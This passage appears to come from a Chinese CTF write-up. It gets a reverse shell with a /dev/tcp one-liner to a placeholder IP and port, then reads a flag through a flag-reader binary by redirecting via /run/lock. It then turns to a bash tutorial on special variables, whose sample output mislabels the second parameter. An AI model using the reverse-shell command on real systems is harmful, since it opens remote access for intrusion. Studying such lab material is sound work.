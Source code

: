 使用`bash -c "sh >& /dev/tcp/your ip/port 0>&1" `直接反弹 shell 

运行`flag-reader`

![](https://ws1.sinaimg.cn/large/64ef14dcgy1g09blmqqltj20su0neu0x.jpg)

审计一下这段代码，大致是输出一串随机数，然后在1s之内又要输入进去，否则就`write(1, "Wrong response\n", 16);`...

然而我在回弹 shell 之后，利用`/tmp`可写的权限，貌似有点小问题，一旦`cat /tmp/zedd`，链接就断掉了，无奈只能找其他文件夹，发现`/run/lock`与`/var/tmp`均可读可写，使用`/flag-reader flag > /run/lock/zedd < /run/lock/zedd`写入 flag

反弹 shell 使用`cat`非常容易断掉，最好使用执行的方式，最后得到 flag

![](https://ws1.sinaimg.cn/large/64ef14dcgy1g09c248q7uj21i613wgvd.jpg)











##	上篇的解释与补充

### 特殊变量

这里再对上篇进行一定的补充与解释。

#### $n

| 变量 | 含义                                                         |
| ---- | ------------------------------------------------------------ |
| $0   | 当前脚本的文件名                                             |
| $n   | 传递给脚本或函数的参数。n 是一个数字，表示第几个参数。例如，第二个参数是$2(0<n<9) |
| ${n} | 9<n时需要加上大括号                                          |

例如，脚本文件如下

```bash
#!/bin/bash

echo "File Name: $0"
echo "First Parameter : $1"
echo "First Parameter : $2"
```

执行脚本文件

```bash
$ ./test.sh Hello Zedd
File Name: ./test.sh
First Parameter : Hello
Second Parameter : Zedd
```
